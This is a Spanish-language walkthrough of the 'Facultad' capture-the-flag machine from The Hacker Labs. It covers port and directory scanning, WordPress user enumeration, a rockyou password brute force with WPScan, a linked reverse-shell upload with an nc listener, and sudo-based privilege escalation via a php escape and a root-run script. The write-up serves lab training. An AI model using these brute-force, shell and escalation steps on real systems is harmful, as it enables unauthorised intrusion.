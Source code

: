 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 30/1/2025 🖥️The
  Hacker Labs
---
```


# Facultad

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.61
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (1034).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.61
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.61
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (1036).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea como el Studium de una asignatura en este caso se llama Administración de Sistemas.

<figure><img src="../.gitbook/assets/image (1037).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.61/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (1038).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/images`.

<figure><img src="../.gitbook/assets/image (1039).png" alt=""><figcaption></figcaption></figure>

Nos la descargamos para realizar la técnica de esteganografía.

<figure><img src="../.gitbook/assets/image (1040).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido del archivo. Descubrimos dos posibles usuarios.

<figure><img src="../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/education`.&#x20;

<figure><img src="../.gitbook/assets/image (1042).png" alt=""><figcaption></figcaption></figure>

Como podemos comprobar es un WordPress por lo que añadimos el dominio **facultad.thl** a **/etc/hosts**.

<figure><img src="../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al tener el directorio wp-admin sabemos que es un panel de login pero no tenemos las credenciales por lo que con **WPScan** enumeramos el usuario.

```bash
wpscan --url http://192.168.1.61/education/ --enumerate u,vp
```

<figure><img src="../.gitbook/assets/image (1044).png" alt=""><figcaption></figcaption></figure>

Sabiendo el usuario tenemos que conseguir la contraseña.

```bash
wpscan --url http://192.168.1.61/education/ --passwords /usr/share/wordlists/rockyou.txt --usernames facultad
```

<figure><img src="../.gitbook/assets/image (1045).png" alt=""><figcaption></figcaption></figure>

Ingresamos las credenciales en el panel de **login**.

<figure><img src="../.gitbook/assets/image (1046).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un apartado para subir archivos por lo que adjuntamos una [ReverseShell](https://www.revshells.com/).

<figure><img src="../.gitbook/assets/image (1047).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../.gitbook/assets/image (1048).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (1049).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/php/" %}

```bash
sudo -u gabri php -r "system('/bin/bash');"
```

Como comprobamos en el mensaje la contraseña de Vivian está en el mail de Gabri.

<figure><img src="../.gitbook/assets/image (1050).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido que es la contraseña codificada en **Brainfuck** por lo que la decodificamos.

<figure><img src="../.gitbook/assets/image (1051).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1052).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

<figure><img src="../.gitbook/assets/image (1053).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos de **root** para ejecutar un script.

<figure><img src="../.gitbook/assets/image (1054).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido y así podemos modificarlo para escalar privilegios. Nos damos cuenta que el script se ejecuta cada minuto en el **/etc/crontab**.

<figure><img src="../.gitbook/assets/image (1055).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash
bash
```

Ejecutamos.

```
sudo /opt/vivian/script.sh
```

<figure><img src="../.gitbook/assets/image (1056).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
